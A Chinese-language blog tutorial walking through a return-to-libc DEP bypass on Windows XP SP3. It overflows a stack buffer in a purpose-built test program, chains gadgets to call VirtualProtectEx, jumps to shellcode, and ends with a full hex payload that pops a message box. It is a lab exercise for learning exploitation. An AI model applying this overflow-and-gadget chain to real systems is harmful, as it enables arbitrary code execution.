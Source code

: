 ```yaml
---
layout:		post
title:		Ret2Libc实战之利用VirtualProtect
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows XP Professional sp3  
>编译器: VC++ 6.0  
>调试器: OllyDbg 1.10  
>说明: 没有启用GS & SafeS.E.H  
<!-- more -->


### 0x00 前期准备

新建一个工程, 帖入以下代码, 选择release版本, 禁止优化

```
#include <stdlib.h>
#include <string.h>
#include <stdio.h>
#include <windows.h>

char shellcode[]=
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90";

void test()
{
	char str[176];
	__asm int 3
	memcpy(str, shellcode, 430);
}

int main()
{
	HINSTANCE hInst=LoadLibrary("shell32.dll");
	char temp[200];
	test();

	return 0;
}
```


### 0x01 分析栈布局

运行*.exe, OllyDbg在int 3断点断下, shellcode起始地址0x0012fdfc, 返回地址0x0012feb0

![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x00.png)
![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x01.png)

先来看看VirtualProtectEx的传入参数

![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x02.png)

VirtualProtectEx的入口地址在0x7c801ad4

```
-1						hProcess
ebp+0x8~ebp+0xc:		lpAddress
ebp+0xc~ebp+0x10:		dwSize
ebp+0x10~ebp+0x14:		flNewProtect
ebp+0x14~ebp+0x18:		lpflOldProtect
```

![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x03.png)

shellcode作如下修改, 源码里memcpy长度改成420

```
...
"\x90\x90\x90\x90"		# 180 byte
"\xd4\x1a\x80\x7c"
```

现在成功到达VirtualProtectEx入口, 但ebp被破坏了

![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x04.png)
![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x05.png)

先对ebp进行修正, 利用"push esp pop ebp retn"指令, 在OllyFindAddr检索"545D"机器码

![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x06.png)

在0x5d1d8b85找到一处, 继续修改shellcode

```
"\x90\x90\x90\x90"		# 180 byte
"\x85\x8b\x1d\x5d"		# 修正ebp
"\x90\x90\x90\x90"		# junk
"\xd4\x1a\x80\x7c"		# VirtualProtectEx
```

![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x07.png)

修正了ebp, 但retn后esp位于高地址, 增大esp避免压栈破坏shellcode

![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x08.png)

在0x62c2127a找到一处"retn 0x28"

![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x09.png)

修改shellcode, 因为修正ebp时的retn4, 需要先填充4 byte的junk再放置VirtualProtectEx

```
"\x90\x90\x90\x90"		# 180 byte
"\x85\x8b\x1d\x5d"		# 修正ebp
"\x7a\x12\xc2\x62"		# 增大esp
"\x90\x90\x90\x90"		# junk
"\xd4\x1a\x80\x7c"		# VirtualProtectEx
```

OD附加调试, 来到VirtualProtectEx入口, ebp=0x0012fee4

![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x0a.png)
![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x0b.png)

VirtualProtectEx传入的第2~5个参数起始于ebp+0x8=0x0012feec, 第1个参数固定为-1

![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x0c.png)

修改shellcode, 241~256 byte依次放置4个参数, 最后一个参数需要指向一个可写地址, 这里我指向了栈上的一个junk

```
"\x90\x90\x90\x90"		# 180 byte
"\x85\x8b\x1d\x5d"		# 修正ebp
"\x7a\x12\xc2\x62"		# 增大esp
"\x90\x90\x90\x90"		# junk
"\xd4\x1a\x80\x7c"		# VirtualProtectEx
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"		# junk
"\xf0\xfd\x12\x00"		# lpAddress, shellcode起始0x0012fdfc, 保险起见地址往前了一点
"\xff\x01\x00\x00"		# dwSize, 511 byte应该够用
"\x40\x00\x00\x00"		# flNewProtect, 固定设置
"\xa0\xfe\x12\x00"		# lpflOldProtect, 可写地址
```

OD附加调试, 调用VirtualProtectEx后返回eax=1, 说明设置成功

![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x0d.png)

继续往下, 来到"retn 10", esp指向0x0012fee8, 后面紧跟4个参数, 在这里放置一条"jmp esp"就能跳回栈上执行shellcode

![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x0e.png)

在0x7d70fa1e找到1条, 注意这里log条目太多最好导出到文件看, 还有部分检索出的地址会报异常, 替换其他的即可

![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x0f.png)

shellcode的236~240 byte修改成"jmp esp"的地址

```
...		# 236 byte
"\x1e\xfa\x70\x7d"
"\xf0\xfd\x12\x00"		# lpAddress, shellcode起始0x0012fdfc, 保险起见地址往前了一点
"\xff\x01\x00\x00"		# dwSize, 511 byte应该够用
"\x40\x00\x00\x00"		# flNewProtect, 固定设置
"\xa0\xfe\x12\x00"		# lpflOldProtect, 可写地址
```


### 0x02 exploit

现在已经跳到栈上, 而且正好紧跟VirtualProtectEx的最后1个参数, 给出完整的shellcode

![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x10.png)

```
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90"		# 180 byte
"\x85\x8b\x1d\x5d"		# 修正ebp
"\x7a\x12\xc2\x62"		# 增大esp
"\x90\x90\x90\x90"		# junk
"\xd4\x1a\x80\x7c"		# VirtualProtectEx
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"
"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90"		# junk
"\x90\x90\x90\x90\x90\x90\x90\x90"
"\x1e\xfa\x70\x7d"		# jmp esp
"\xf0\xfd\x12\x00"		# lpAddress, shellcode起始0x0012fdfc, 保险起见地址往前了一点
"\xff\x01\x00\x00"		# dwSize, 511 byte应该够用
"\x40\x00\x00\x00"		# flNewProtect, 固定设置
"\xa0\xfe\x12\x00"		# lpflOldProtect, 可写地址
"\x31\xd2\xb2\x30\x64\x8b\x12\x8b\x52\x0c\x8b\x52\x1c\x8b\x42\x08"
"\x8b\x72\x20\x8b\x12\x80\x7e\x0c\x33\x75\xf2\x89\xc7\x03\x78\x3c"
"\x8b\x57\x78\x01\xc2\x8b\x7a\x20\x01\xc7\x31\xed\x8b\x34\xaf\x01"
"\xc6\x45\x81\x3e\x46\x61\x74\x61\x75\xf2\x81\x7e\x08\x45\x78\x69"
"\x74\x75\xe9\x8b\x7a\x24\x01\xc7\x66\x8b\x2c\x6f\x8b\x7a\x1c\x01"
"\xc7\x8b\x7c\xaf\xfc\x01\xc7\x68\x67\x20\x20\x01\x68\x79\x30\x75"
"\x6e\x68\x20\x77\x6f\x6f\x89\xe1\xfe\x49\x0b\x31\xc0\x51\x50\xff"
"\xd7"		# paylaod 113 byte
```

pwn~

![](/assets/img/exploit/2017-10-04-disable-dep-virtualprotect/0x11.png)